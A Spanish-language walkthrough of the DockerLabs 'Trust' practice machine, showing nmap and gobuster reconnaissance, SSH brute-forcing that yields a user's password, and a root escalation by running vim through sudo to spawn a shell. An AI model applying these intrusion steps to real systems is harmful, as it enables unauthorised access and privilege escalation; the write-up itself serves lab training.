 # Máquina Trust

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19a11a42fa3a9d9a0fea917f7edba3c7 (ECDSA)
|_  256 a6fdcf45a695052c5810738d39572bff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Le echamos un vistazo a la web:

![Pasted image 20240422153530](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/279340af-0955-41f7-8d84-5ec94fdde2c3)

Se trata de la página por defecto de Apache. Haremos un poco de **fuzzing** con gobuster.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]  
/server-status        (Status: 403) [Size: 275
```

Encontramos un **secret.php**. Le echamos un vistazo:

![Pasted image 20240422153718](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/575be71d-b4a7-4747-bf85-0733e6befba4)

***

## Explotación

Tan solo obtenemos esto. El único vector de ataque que se me ocurre es hacer fuerza bruta al otro puerto abierto, el **22** que es el **ssh** con el usuario **mario**.

![Pasted image 20240422153934](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/396882d4-6159-4050-bcf1-29fc96ba6209)

Encontramos credenciales para acceder por ssh -> **mario:chocolate**

```shell
ssh mario@172.17.0.2
```

Estamos dentro !

***

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Usamos **sudo -l** para ver si podemos ejecutar algo como root:

```shell
sudo -l
-----------------------
User mario may run the following commands on 78a58e094bf9:
    (ALL) /usr/bin/vim
```

Podemos ejecutar **vim**. Si no sabemos como explotarlo para escalar privilegios, siempre podemos consultar -> [GTFOBins](https://gtfobins.github.io/)

```shell
sudo vim -c ':!/bin/bash'
```

```shell
whoami
----------------
root
```
